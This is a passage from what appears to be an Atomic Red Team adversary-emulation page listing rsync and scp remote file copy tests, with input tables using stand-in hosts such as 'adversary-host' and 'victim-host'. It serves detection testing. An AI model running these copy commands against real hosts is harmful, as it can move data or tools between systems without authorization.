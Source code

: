 #### Run it with `bash`! ```
rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}
```



<br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)
Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_path | Path of folder to copy | Path | /tmp/adversary-rsync/|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive rsync | Path | /tmp/victim-files|

#### Run it with `bash`! ```
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```



<br/>
<br/>

## Atomic Test #3 - scp remote file copy (push)
Utilize scp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Path of file to copy | Path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | String | victim|
| remote_host | Remote host to copy toward | String | victim-host|
| remote_path | Remote path to receive scp | Path | /tmp/victim-files/|

#### Run it with `bash`! ```
scp #{local_file} #{username}@#{remote_host}:#{remote_path}
```



<br/>
<br/>

## Atomic Test #4 - scp remote file copy (pull)
Utilize scp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


#### Inputs
| Name | Description | Type | Default Value | 
```